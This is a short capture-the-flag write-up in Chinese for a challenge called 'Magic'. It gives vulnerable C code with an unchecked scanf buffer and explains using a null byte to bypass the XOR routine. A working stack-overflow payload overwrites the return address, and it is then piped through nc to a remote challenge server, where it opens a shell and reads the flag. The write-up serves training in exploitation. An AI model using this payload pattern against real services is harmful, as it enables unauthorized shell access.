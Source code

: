 # Magic
source code
```c
void do_magic(char *buf,int n)
{
        int i;
        srand(time(NULL));
        for (i = 0; i < n; i++)
                buf[i] ^= rand()%256;
}

void magic()
{
        char magic_str[60];
        scanf("%s", magic_str);
        do_magic(magic_str, strlen(magic_str));
        printf("%s", magic_str);
}
```

## Solve
 * scanf 讀到 ' ' 和 '\n' 會停止讀取並回傳結果
 * strlen 讀到 '\0' 會回傳長度
 * 這代表，我們可以輸入明明長度大於0，但strlen計算卻會以為長度=0 的字串！
 * 問題：想呼叫的`never_used`位址在`0x804860d` ，`\x0d`是空白字元，scanf會停止 => 跳到下個指令也行

```bash
$ (python -c 'print "lubebul \x00" + "A"*(68+4-1) + "\x10\x86\x04\x08"') | ./magic
Welcome to Magic system!
Give me your name(a-z): Your name is lubebul.
Give me something that you want to MAGIC: $
Segmentation fault (core dumped)
```
 * 把字串存成[文字檔](in)，就不用每次手動輸入
 ```bash
 $ (python -c 'print "lubebul \x00" + "A"*(68+4-1) + "\x10\x86\x04\x08"') > in
 ```
 * 用`cat -` 讓shell 繼續開著
```
$ (cat in -) | (nc 140.113.209.24 10000)
Welcome to Magic system!
Give me your name(a-z): Your name is lubebul.
Give me something that you want to MAGIC: sh: 0: can't access tty; job control turned off
$ ls
bin
boot
dev
etc
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
$ cd ho
sh: 2: cd: can't cd to ho
$ cd home
$ ls
ctf
$ cd ctf
$ ls
ctf
flag
$ cat flag
BAMBOOFOX{Th1s_1s_@_b4ckd00r_n0t_m4g1c}
$
```
